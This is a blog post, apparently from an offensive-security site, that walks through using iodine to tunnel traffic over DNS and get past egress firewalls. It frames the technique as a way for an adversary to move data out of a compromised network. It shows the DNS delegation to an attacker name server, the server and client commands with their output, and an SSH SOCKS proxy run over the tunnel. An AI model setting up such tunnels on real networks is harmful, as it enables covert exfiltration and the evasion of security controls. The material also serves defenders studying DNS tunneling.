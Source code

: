 ```yaml
---
layout: post
title:  "Application Firewall Bypass over DNS (iodine)"
date:   2021-05-11 10:43:25 -0400
categories: exfiltration 
tags: gateway bypass
---
```

<p>
Sometimes the adversary is behind a security stack and needs to bypass that stack for one reason or another. Also once an environment has been compromised and the adversary finds some desirable data, the data needs to be removed from the network. In this use case we will assume that common protocols like FTP and SSH are heavily restricted on egress traffic (as they should be). 
</p>


<p>
Often times DNS to any name server is still permitted. This is typically because of lack of awareness, and fear that without DNS the entire environment feels down to the users. In many networks with captive portals (airports, hotels, etc) DNS is permitted prior to signing in. This means that if you could make the requests actually look like DNS you should be able to bypass other controls.
</p>

<p>
Iodine is a pretty old, yet stable, tool that allows you to tunnel traffic inside DNS requests. I've found that the client and server run very easily on linux, and much less so on Mac and Windows so be prepared for that. The documentation can be found here, https://code.kryo.se/iodine/. I find it somewhat convoluted so decided to write my own post on how to use it here.
</p>

<p>
You will require a publicly accessible domain under your control and another system on the outside of the security stack.
</p>


<h3>Step 1 - Configure the Domain</h3>

<p>
This needs to be done before you get stuck behind a security stack. So before you get there make sure to have a stable host online that also permits port 53 ingress. You also need to setup a subdomain on a domain you control. I've stuck with the naming from the Iodine documentation to make it more relatable.
</p>

<p>
The following screenshot from Cloudflare Dash shows that an A record has been created for my malicious name server, currently at 35.196.116.250. This is the host we will run Iodine on. From there an entire subdomain has been delegated to that malicious name server, t1.ninjastars.cf.
</p>

<img src="/images/iodone-dnsconfig.png">

<p>
You can verify the DNS is pointing in the correct direction with <code>dig ns t1.ninjastars.cf +trace</code>. In this case you can see that the NS is delegated to <code>t1ns.ninjastars.cf</code>.
</p>

<pre>t1.ninjastars.cf.	7200	IN	NS	t1ns.ninjastars.cf.</pre>

<h3>Step 2 - Start the Server</h3>

<p>
From the server that will run iodine (in this case 35.196.116.250/t1ns.ninjastars.cf) start the iodine server. The address 10.0.0.1 is used as a point to point interface with your client, so this must be in a different subnet as the client and server. <b>Make sure you are using iodined on the server!</b>
</p>
<br>
<code>
iodined -f 10.0.0.1 -P boom t1.example.com
</code>

<p>
If all went well you should see something like this.
</p>

<pre>
root@sperciballi-iodine:/home/stephen# iodined -f 10.0.0.1 -P boom   t1.ninjastars.cf
Opened dns0
Setting IP of dns0 to 10.0.0.1
Setting MTU of dns0 to 1130
Opened IPv4 UDP socket
Listening to dns for domain t1.ninjastars.cf
</pre>


<h3>Step 3 - Start the Client</h3>

<p>
From the client system behind the security stack start iodine to connect to the iodine server.
</p>
<br>
<code>
iodine -f 35.196.116.250 -P boom t1.ninjastars.cf
</code>

<p>
You should see messages that look like the following, indicating that the tunnel interface has been brought up.
</p>

<pre>
┌──(root💀kali)-[/home/stephen]
└─# iodine -f 35.196.116.250 -r -P boom t1.ninjastars.cf
Opened dns0
Opened IPv4 UDP socket
Sending DNS queries for t1.ninjastars.cf to 35.196.116.250
Autodetecting DNS query type (use -T to override).
Using DNS type NULL queries
Version ok, both using protocol v 0x00000502. You are user #0
Setting IP of dns0 to 10.0.0.2
Setting MTU of dns0 to 1130
Server tunnel IP is 10.0.0.1
Skipping raw mode
Using EDNS0 extension
Switching upstream to codec Base128
Server switched upstream to codec Base128
No alternative downstream codec available, using default (Raw)
Switching to lazy mode for low-latency
Server switched to lazy mode
Autoprobing max downstream fragment size... (skip with -m fragsize)
768 ok.. ...1152 not ok.. 960 ok.. 1056 ok.. 1104 ok.. 1128 ok.. 1140 ok.. will use 1140-2=1138
Setting downstream fragment size to max 1138...
Connection setup complete, transmitting data.
</pre>
<p>
At this point you should be able to ping the server side tunnel IP (10.0.0.1) from the client side of the tunnel.
</p>


<h3>Step 4 - Use the Tunnel</h3>

<p>
With this current point to point tunnel established over DNS you would now want to proxy your client traffic over the tunnel. This could be accomplished by configuring a web proxy at the server side, or more securely an SSH tunnel which is demonstrated below.
</p>

<p>
From the client side of the tunnel we will be SSH'ing into our Iodine server, however as part of that session will open up a local port 8081 that will be used as a SOCKS5 proxy. Note that the IP 10.0.0.1 is the server side of the tunnel.
<p>

<pre>
ssh -i ./google_compute_engine -C -D 8081 stephen@10.0.0.1
</pre>

<p>
With your proxy server started on the client device, a simple use case is to configure your browser connection settings to use a SOCKS5 proxy and using localhost:8081.
</p>

<p>
Search the web for what's my IP and you will see that it is now the public IP of the Iodine server.
</p>

<img src="/images/iodine-ip.png">

